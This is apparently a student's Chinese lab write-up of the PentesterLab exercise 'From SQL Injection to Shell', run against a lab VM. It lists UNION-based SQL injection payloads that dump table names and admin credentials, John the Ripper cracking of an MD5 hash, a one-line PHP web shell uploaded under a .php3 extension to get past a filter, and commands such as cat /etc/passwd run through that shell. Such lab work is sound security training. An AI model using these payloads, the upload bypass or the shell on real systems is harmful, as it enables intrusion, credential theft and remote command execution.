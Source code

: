 ﻿##  从SQL注入到Shell

### 实验目的
在基于PHP的网站中使用SQL注入并使用它来访问管理页面，用这种访问，在目标服务器上获得代码执行。

### 实验步骤
- 指纹：收集有关Web应用程序和正在使用的技术的信息
- SQL注入的检测和利用：学习SQL注入如何工作以及如何利用它们来检索信息
- 访问管理页面和代码执行：访问操作系统和运行命令的最后一步

### 实验环境

攻击者主机和靶机均为NAT网络
靶机使用下载的镜像
攻击者主机IP：10.0.2.22
靶机IP：10.0.2.21

![](image/1.PNG)

![](image/2.PNG)

### 实验过程

#### 1.收集指纹

* http请求测试
  * 攻击者主机浏览器设置代理

  ![](image/3.PNG)

  * 浏览器访问http://10.0.2.21

  ![](image/4.PNG)

  * burpsuite劫持

  ![](image/5.png)
  上图可以看出靶机使用的网络服务器、以及php版本信息

* https请求测试
  * 请求失败
  ![](image/6.PNG)

  * 使用工具wfuzz蛮力检测Web服务器上的目录和页面
    * 使用命令
    ```
    $ python wfuzz.py -c -z file,wordlist/general/big.txt --hc 404 http://10.0.2.21/FUZZ
    ```
    其中
    ```
    -c 表示高亮显示
    -z file，wordlist / general / big.txt 告诉wfuzz使用文件wordlists / general / big.txt作为字典来强制远程目录的名字。
    --hc 404 告诉wfuzz忽略响应，如果响应代码是404（Page not found）
    http：// vulnerable / FUZZ 告诉wfuzz用字典中的每个值替换URL中的FUZZ这个词。
    ```

    `没有成功`

#### 2.SQL注入的检测和利用

##### SQL注入检测
* SQL简介
 * retrieve information using the SELECT statement; `检索`
 * update information using the UPDATE statement; `修改`
 * add new information using the INSERT statement;`增加`
 * delete information using the DELETE statement.`删除`


* 发现sql漏洞存在：

  请求10.0.2.21/cat.php?id=3' 网页报错提示语法错误(单引号)以及数据库应为Mysql

  ![](image/8.PNG)

* 基于整数测试 用户提供的值被视为一个整数直接回显到SQL请求中

  ![](image/9.PNG)
  ![](image/10.PNG)

* 利用UNION开发SQL注入
  * 获取数据库版本号

  `.php?id=1 UNION SELECT 1,@@version,3,4`

  ![](image/11.PNG)

  * 获取系统当前用户名

  `.php?id=1 UNION SELECT 1,current_user(),3,4`

  ![](image/12.PNG)

  * 获取当前数据库名

  `.php?id=1 UNION SELECT 1,database(),3,4`

  ![](image/13.PNG)

##### 通过查看information_schema数据库获取更多信息

  >在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等。


* 检索数据库中所有表名

  `1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`

  ![](image/14.PNG)

* 检索数据库中所有列名

  `1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

  ![](image/15.PNG)

* 查看表名和列名的对应关系

  `1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`

  ![](image/16.PNG)

* 获取管理员密码

  `1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;`

  ![](image/17.PNG)

##### 破解密码

`8efe310f9ab3efeae8d410a8e0166eb2`

* 方法一：网上在线破解

  ![](image/18.PNG)

* 方法二：John the ripper密码破解工具

  ```
  命令：
  john password --format=raw-md5 --wordlist=dico --rules
  参数：
  password 告诉 John 什么文件包含密码的哈希值
  --format=raw-md5 告诉 John 密码哈希是 raw-md5 格式
  --wordlist=dico 告诉 John 使用文件 dico 作为字典
  --rules 告诉 John 尝试遍历每个可用的单词
   ```
  ![](image/19.PNG)

两种方法解密出的结果都是`P4ssw0rd`

####  3.访问管理页面和代码执行

* 根据破解的密码和用户名进入管理界面
![](image/20.PNG)

* 创建php脚本后点击上图界面的右侧`New Picture`按钮上传脚本文件
```php
<?php
system($_GET['cmd']);
?>
```
  * 直接上传php文件会显示失败因为不支持php文件的上传，将文件后缀名改为.php3之后可以成功上传
  ![](image/21.PNG)
  ![](image/22.PNG)

* 利用cmd执行任意命令利用脚本
  * 访问http：//vulnerable/admin/uploads/shell.php3？cmd = uname将在操作系统上运行命令uname并返回当前内核。
  ![](image/23_1.PNG)
  ![](image/23.PNG)

  * ls获取当前目录的内容
  ![](image/24.PNG)

  * 获取靶机系统用户列表
  `cat /etc/passwd`
  ![](image/25.PNG)
  ![](image/25_1.PNG)

####  参考资料

>From SQL Injection To Shell指导书https://pentesterlab.com/exercises/from_sqli_to_shell/course
